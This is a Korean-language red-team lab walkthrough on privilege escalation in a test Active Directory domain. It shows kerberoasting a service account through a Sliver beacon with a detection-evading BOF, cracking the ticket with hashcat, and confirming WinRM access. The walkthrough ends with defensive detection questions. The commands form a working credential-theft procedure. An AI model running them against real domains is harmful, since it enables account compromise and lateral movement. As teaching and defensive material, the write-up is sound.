



# 4. 권한 상승 - US

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* 커버로스팅 공격


<figure><figcaption></figcaption></figure>

블러드하운드 덤프를 뜬 뒤에 많은 것들이 가능 하지만, 살펴봐야할 것 들은:

* 현재 유저의 그룹 멤버쉽
* 현재 유저가 속한 그룹들의 DACL 여부
* 현재 유저의 로컬 관리자 권한 여부

들이 있다. 안타깝게도 johndoe.smith는 가장 낮은 권한의 `USHO-Marketing` 그룹 소속이였으며, 그 그룹을 포함한 모든 기본 그룹 `Users, Domain Users, Authenticated Users` 또한 별 다른 권한이 없었다. 블러드하운드를 돌렸을 때 `--stealth` 플래그를 줬고, 작전 보안을 위해 Sessions는 구하지 않았기 때문에 로컬 관리자 권한 또한 알 수가 없다.

일단은 johndoe.smith가 별다른 DACL이 없기 때문에, 권한 상승에 사용될 수 있는 커버로스팅 가능한 유저를 알아본다.

<figure><figcaption></figcaption></figure>

`SF_MSSQL_SVC@us.rt.local` 유저가 `SFMSSQLSVC/sql01.us.rt.local:1433` SPN이 설정된 도메인 서비스 유저라는 것을 알아냈기 때문에, 해당 유저의 서비스 티켓(ST)을 받아온다. 탐지를 우회하기 위해 BOF(Beacon Object File)를 이용한다.

```
// BOF-Roast를 이용해 SF_MSSQL_SVC의 서비스티켓 받아오기 
sliver (TOUGH_BREADCRUMB) > bof-roast SFMSSQLSVC/sql01.us.rt.local:1433

[*] Got output:
[+] Target SPN: SFMSSQLSVC/sql01.us.rt.local:1433
[+] Got Ticket! Convert it with apreq2hashcat.pyYIIHJgYJKoZIhvcSAQICAQBuggcVMIIHEaADAgEFoQMCAQ6iBwMFACAAAACjggUyYYIFLjCCBSqgAwIBBaENGwtVUy5SVC5MT0
NBTKIvMC2gAwIBAqEmM < . . . 생략 . . . > 

// 크래킹 가능한 포멧으로 전환 
vim kerberoast.aprep
cat kerberoast.aprep | tr -d '\n' > kerberoast.aprep2
python3 apreq2hashcat.py kerberoast.aprep2 | tee kerberoast.hash

// Hashcat을 사용해 해시 크래킹 
└─# hashcat -a 0 -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt             
hashcat (v6.2.6) starting

< . . . 생략 . . . > 
cb0af055bc10b819b35800ec0018ab193fa8657261422a3e35d57d0d:sql123
                                                          
Session..........: hashcat
Status...........: Cracked
```

커버로스팅이 다행히 정상적으로 진행됐고, `US\SF_MSSQLSVC:sql123` 이라는 계정 정보를 얻었다. 이제 SF\_MSSQL\_SVC 유저의 비밀번호가 맞는지 확인해본다.

```
sliver (TOUGH_BREADCRUMB) > winrm -- -i sql01.us.rt.local -u us.rt.local\\sf_mssql_svc -p 'sql123' -c whoami 

[+] Arguments processed
       hostname: sql01.us.rt.local
        command: whoami
       username: us.rt.local\sf_mssql_svc
       password: sql123

us\sf_mssql_svc
```

계정 정보를 확인하다 sql01.us.rt.local에 winrm까지 가능하다는 것을 알았다. 따라서 해당 계정은 sql01.us.rt.local에 로컬 관리자 권한이나, 최소한 `Remote Management Users` 권한을 갖고 있을 확률이 높아졌다.


<figure><figcaption></figcaption></figure>

## 우리 회사는

* 커버로스팅 공격을 탐지하고 방지할 수 있는가?
* SPN 설정된 유저를 향해 RC4 암호화된 서비스 티켓을 요청하는 엔드포인트 및 유저를 탐지할 수 있는가?
* 커버로스팅에 취약한 SPN 설정된 서비스 계정을 사용하고 있지는 않은가?

